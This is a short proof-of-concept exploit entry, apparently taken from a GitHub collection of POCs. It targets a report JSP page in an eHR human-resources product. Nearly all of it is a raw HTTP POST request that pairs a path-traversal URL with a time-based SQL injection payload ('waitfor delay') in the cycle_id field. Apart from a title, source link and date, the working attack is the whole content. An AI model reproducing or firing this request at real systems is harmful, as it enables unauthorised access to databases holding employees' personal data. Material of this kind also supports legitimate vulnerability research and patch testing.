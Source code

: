# ehr_report_collect_tree_sqli

from： https://github.com/wy876/POC/blob/main/%E5%AE%8F%E6%99%AFeHR-report_org_collect_tree.jsp%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
2024.3.25 @2

```
POST /templates/attestation/../../report/report_collect/report_org_collect_tree.jsp HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=C79DED09D8CE46170DEB697EA6999135
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

params=&isAction=2&cycle_id=2;waitfor%20delay%20'0:0:5'--%20
```
